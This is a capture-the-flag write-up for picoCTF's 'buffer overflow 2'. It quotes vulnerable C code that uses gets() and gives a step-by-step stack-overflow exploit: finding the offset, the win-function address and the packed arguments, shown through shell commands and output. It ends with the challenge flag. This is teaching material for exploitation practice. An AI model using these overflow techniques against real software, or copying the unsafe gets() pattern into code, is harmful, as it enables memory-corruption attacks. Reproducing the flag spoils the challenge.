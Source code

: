 # buffer overflow 2
## Question
>  Alright, this time you'll need to control some arguments. Can you get the flag from this [program](files/vuln)? You can find it in `/problems/buffer-overflow-2_4_ca1cb0da49310dd45c811348a235d257` on the shell server. [Source](files/vuln.c). 

## Hint
>Try using gdb to print out the stack once you write to it!

# Solution
## Code Analysis
Let's have a look at the code. The main function asks for a string and calls the `vuln` function:
```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

The `vuln` function sets a buffer of 100 bytes, puts the string on it and displays it.
```c
define BUFSIZE 100

// ...
// [SNIP]
// ...

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```

The first objective is obviously to jump to the `win` function where our flag will be displayed:
```c
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}
```

As you can see though, the flag will only be displayed once the 2 arguments passed to this function are correct.

## First part: call the "win" function
We can execute this first part locally (on your machine). Make sure you have setup your system to run 32bit executables.

Let's find the address of the segfault.
~~~~
$ python -c "print 'A'*112" | ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
$ dmesg | tail
[    7.729480] AVX2 version of gcm_enc/dec engaged.
[    7.729481] AES CTR mode by8 optimization enabled
[   19.494662] Bluetooth: RFCOMM TTY layer initialized
[   19.494667] Bluetooth: RFCOMM socket layer initialized
[   19.494671] Bluetooth: RFCOMM ver 1.11
[   21.002090] rfkill: input handler disabled
[   77.448898] show_signal_msg: 30 callbacks suppressed
[   77.448900] vuln[1824]: segfault at fbad2883 ip 00000000080486cf sp 00000000fbad2883 error 4 in vuln[8048000+1000]
[   77.448905] Code: f4 e8 05 fe ff ff 83 c4 10 83 ec 0c 68 d1 87 04 08 e8 a5 fd ff ff 83 c4 10 e8 83 ff ff ff b8 00 00 00 00 8b 4d fc c9 8d 61 fc <c3> 55 57 56 53 e8 27 fe ff ff 81 c3 27 19 00 00 83 ec 0c 8b 6c 24
[   90.121523] traps: vuln[1916] general protection fault ip:8048600 sp:ffb75e80 error:0 in vuln[8048000+1000]
~~~~

OK, we don't have the address of the segfault. Let's increase our string of 4 more bytes:
~~~~
$ python -c "print 'A'*116" | ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
$ dmesg | tail
[   19.494662] Bluetooth: RFCOMM TTY layer initialized
[   19.494667] Bluetooth: RFCOMM socket layer initialized
[   19.494671] Bluetooth: RFCOMM ver 1.11
[   21.002090] rfkill: input handler disabled
[   77.448898] show_signal_msg: 30 callbacks suppressed
[   77.448900] vuln[1824]: segfault at fbad2883 ip 00000000080486cf sp 00000000fbad2883 error 4 in vuln[8048000+1000]
[   77.448905] Code: f4 e8 05 fe ff ff 83 c4 10 83 ec 0c 68 d1 87 04 08 e8 a5 fd ff ff 83 c4 10 e8 83 ff ff ff b8 00 00 00 00 8b 4d fc c9 8d 61 fc <c3> 55 57 56 53 e8 27 fe ff ff 81 c3 27 19 00 00 83 ec 0c 8b 6c 24
[   90.121523] traps: vuln[1916] general protection fault ip:8048600 sp:ffb75e80 error:0 in vuln[8048000+1000]
[  103.519655] vuln[1933]: segfault at 41414141 ip 0000000041414141 sp 00000000ffdc1d90 error 14 in libc-2.27.so[f7d9a000+1d5000]
[  103.519663] Code: Bad RIP value.
~~~~

OK, we know that our string should be 112 bytes long. Now, let's find out the address of our `win` function:
~~~~
$ readelf -s vuln | grep win
    66: 080485cb   123 FUNC    GLOBAL DEFAULT   14 win
~~~~

Our `win` function is located at memory address `0x80485cb`. Let's encode it:
~~~~
$ python -c "import struct; print(repr(struct.pack('<I', 0x80485cb)))"
'\xcb\x85\x04\x08'
~~~~

Now let's exploit that locally to see if we jump to the `win` function:
~~~~
$ python -c "print 'A'*112 + '\xcb\x85\x04\x08'" | ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅
Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.
~~~~

OK, looks like it's working because we see the message indicating that the flag file is missing. Let's create a fake one:
~~~~
$ echo -n "picoCTF{thisistheflag}" > flag.txt
$ python -c "print 'A'*112 + '\xcb\x85\x04\x08'" | ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅
Segmentation fault (core dumped)
~~~~

## Second part: inject the arguments
Now, we are able to jump to the `win` function, but this latest expects 2 parameters. Let's first encode them:
~~~~
$ python -c "import struct; print(repr(struct.pack('<I', 0xdeadbeef)))"
'\xef\xbe\xad\xde'
$ python -c "import struct; print(repr(struct.pack('<I', 0xdeadc0de)))"
'\xde\xc0\xad\xde'
~~~~

Now, we can build our payload. It will concatenate these items:
* `'A' * 112` to overflow the string buffer
* `'\xcb\x85\x04\x08'` is the address of the `win` function where we want to jump
* `'B'*4`: we need to add 4 bytes for the return address of the `win` function (stack = EBP > return address > 1st arg > 2nd arg)
* `'\xef\xbe\xad\xde'`: our first argument
* `'\xde\xc0\xad\xde'`: our second argument

Let's try locally:
~~~~
$ python -c "print 'A'*112 + '\xcb\x85\x04\x08' + 'B'*4 + '\xef\xbe\xad\xde' + '\xde\xc0\xad\xde'" | ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅BBBBﾭ�����
picoCTF{thisistheflag}Segmentation fault (core dumped)
~~~~

It works. Now, let's execute that on the server:
~~~~
$ python -c "print 'A'*112 + '\xcb\x85\x04\x08' + 'B'*4 + '\xef\xbe\xad\xde' + '\xde\xc0\xad\xde'" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBﾭ�����
picoCTF{addr3ss3s_ar3_3asy30723282}Segmentation fault (core dumped)
~~~~

# Flag
`picoCTF{addr3ss3s_ar3_3asy30723282}`
